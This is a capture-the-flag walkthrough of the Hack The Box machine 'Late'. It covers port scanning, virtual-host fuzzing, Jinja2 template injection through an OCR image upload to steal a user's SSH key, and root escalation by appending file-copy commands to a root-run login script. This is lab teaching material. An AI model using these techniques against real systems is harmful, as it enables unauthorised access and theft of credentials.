 ```metadata
{
    "cover": "../../app/assets/sources/Banner-HTB-Late.png",
    "tag": "HTB",
    "title": "Late - Hack The Box",
    "pined": true,
    "size": "large"
}
```

# Late

## Reconnaissance

First we *[enum](https://en.wikipedia.org/wiki/Network_enumeration)* the machine, in this case I’ll be using `[rustscan](https://github.com/RustScan/RustScan)`:

```bash
rustscan -a 10.129.164.199 -- -A -sCV -oN targeted
```

![Untitled](../../app/assets/sources/HTB-Late-Untitled.png)

We got these two ports (`22`, `80`):

![Untitled](../../app/assets/sources/HTB-Late-Untitled%201.png)

Let’s checkout the page:

![Untitled](../../app/assets/sources/HTB-Late-Untitled%202.png)

Now in the *contact* section we can try to insert `javascript` code: 

![Untitled](../../app/assets/sources/HTB-Late-Untitled%203.png)

Unfortunately we got nothing. First go to edit the `/etc/hosts` and let’s add our `machine IP` given and the `late.htb` next to it. After let’s search for virtual hosts with `[wfuzz](https://www.kali.org/tools/wfuzz/)`, let’s run this command:

```bash
wfuzz -c -u http://${YOUR_IP} -w /usr/share/dirbuster/directory-list-lowercase-2.3-medium.txt -H 'Host: FUZZ.late.htb'
```

We will be seeing a lot of stuff, but let’s test the `images` virtual host:

![Untitled](../../app/assets/sources/HTB-Late-Untitled%204.png)

Now we go to edit the `/etc/hosts` and let’s add our `IP` given and the `late.htb images.late.htb`:

![Untitled](../../app/assets/sources/HTB-Late-Untitled%205.png)

Why `late.htb`? You can add whatever name you want, but I think is more clean to use the name of the machine and the *.htb* at the end.

Now if we go to [`http://images.late.htb/`](http://images.late.htb/), we get this `Flask` page:

![Untitled](../../app/assets/sources/HTB-Late-Untitled%206.png)

Ok, I’ll use this ***“Pure Text”*** image to test out the program, and I got this `results.txt`

![Untitled](../../app/assets/sources/HTB-Late-Untitled%207.png)

![pureText.jpeg](../../app/assets/sources/HTB-Late-pureText.jpeg)

Let’s open that `results.txt` to get more info.

We find out something interesting, we got back some `HTML` tags... And also we know that this web page uses `Flask`, and how `Flask` renders HTML?

The short answer is `Jinja2`, but if you want to learn more about it, this is the official documentation:

[Templates - Flask Documentation (2.1.x)](https://flask.palletsprojects.com/en/2.1.x/templating/)

![Untitled](../../app/assets/sources/HTB-Late-Untitled%208.png)

## Enumerate Target Vulnerabilities

Now let’s search a way to *inject* something or *Bypass* the web page. Searching a little bit, I found out this repository with amazing examples (I recommend to read how is it done):

[PayloadsAllTheThings/Server Side Template Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)

Now let’s test it with a simple instruction, let’s upload this image to see if `Flask` executes the expression.

![7times7.png](../../app/assets/sources/HTB-Late-7times7.png)

**Nice!** We got the expression to be executed:

![Untitled](../../app/assets/sources/HTB-Late-Untitled%209.png)

## Compromise Targets

Now let’s try a more complex expression, let’s upload this image if we list the `ssh keys` of that user:

> *Note: If you want to know the user, just replace what is in quotes with `whoami`, and you get the user, in this case we got `svc_acc`.*
> 

![test.png](../../app/assets/sources/HTB-Late-test.png)

We got the following files, and there is a interesting key (`id_rsa`):

![Untitled](../../app/assets/sources/HTB-Late-Untitled%2010.png)

Now let’s send this image to get the `ssh key` to get access to *`svc_acc`:*

![getUserKey.png](../../app/assets/sources/HTB-Late-getUserKey.png)

**V*oilá***, we got a key***:***

![Untitled](../../app/assets/sources/HTB-Late-Untitled%2011.png)

Now let’s copy the content in a file an let’s assign the correct permissions and we can connect to it:

```bash
# We assign the permissions
chmod 600 ${YOUR_KEY_NAME}
# We will connect to it
ssh svc_acc@late.htb -i ${YOUR_KEY_NAME}
```

Let’s get the user flag:

![Untitled](../../app/assets/sources/HTB-Late-Untitled%2012.png)

## Privilege Escalation

We can use *[linpeas.sh](https://github.com/carlospolop/PEASS-ng/)* to get more info, but first we should upload it to the machine, search for your `tun0 IP` and start a `Python web server` where is located the *linpeas.sh* file. It should look like this:

![Untitled](../../app/assets/sources/HTB-Late-Untitled%2013.png)

Inside the *Late machine* we get the file with `wget` and we add the permissions to execute the files with `chmod +x ./linpeas.sh`:

![Untitled](../../app/assets/sources/HTB-Late-Untitled%2014.png)

After that just run it with `./linpeas.sh`, we will get a bunch of information, however we will be using the file `/usr/local/sbin/ssh-alert.sh`:

![Untitled](../../app/assets/sources/HTB-Late-Untitled%2015.png)

Let’s open it (`vim /usr/local/sbin/ssh-alert.sh`) to understand how we can *“hack it”*.

![Untitled](../../app/assets/sources/HTB-Late-Untitled%2016.png)

We got some interesting insights, when someone logins through *ssh*, it will send a mail to the *root* user. Also we discover it has some special permissions, the aim of that is to be able to write in *“protected”* places.

![Untitled](../../app/assets/sources/HTB-Late-Untitled%2017.png)

Let’s ***exploit it!*** I found out a simple way to do it:

- First we open two shells and we log in one of them.

![Untitled](../../app/assets/sources/HTB-Late-Untitled%2018.png)

- Where we are logged, we run the following commands:

```bash
# We copy the root in our directory
echo "cp /root/root.txt /home/svc_acc/root.txt"  >> /usr/local/sbin/ssh-alert.sh
# We add our user as the owner of the file
echo "chown svc_acc:svc_acc /home/svc_acc/root.txt" >> /usr/local/sbin/ssh-alert.sh
```

- Then we rapidly go to the other shell, we log in and let’s see what we got:

![Untitled](../../app/assets/sources/HTB-Late-Untitled%2019.png)

***Voilá, we got the Root!***

But how? Well, we know that the script `/usr/local/sbin/ssh-alert.sh` has some special permissions (that’s why we add those two commands), also we know that every time that we log in with SSH the script will run (that’s why we open two terminals to log in again), so when we log in again the commands that were added previously gonna run.
